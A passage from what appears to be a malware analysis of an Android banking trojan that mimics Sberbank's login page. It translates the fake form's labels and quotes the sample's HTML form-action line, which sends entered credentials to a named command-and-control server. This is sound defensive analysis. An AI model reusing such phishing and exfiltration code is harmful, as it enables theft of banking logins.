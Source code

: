Thanks Google Translate!

This page is displayed because of `autorun.html` in the folder [assets](/assets/res/malware/sberbank/assets.zip):

> ```javascript
><script>
>MeSetting.startPage("file:///android_asset/2/index.html#full");
></script>
> ```

### Login page

The first button leads to this login page:

![login](/assets/res/malware/sberbank/login_form.png)

* Логин или идентификатор: Login or ID
* Пароль: Password

At the end of the file, we can find this line:

> ```html
>document.myformsbol1.action = "http://"+MeSetting.getDomain()+"/api/indata.php?type=SBankFull";
> ```

where `myformsbol1` is the login form, and `getDomain` returns the meta-data `domain`: **pari.securedapinetworks.com**, sending credentials to the C&C server.
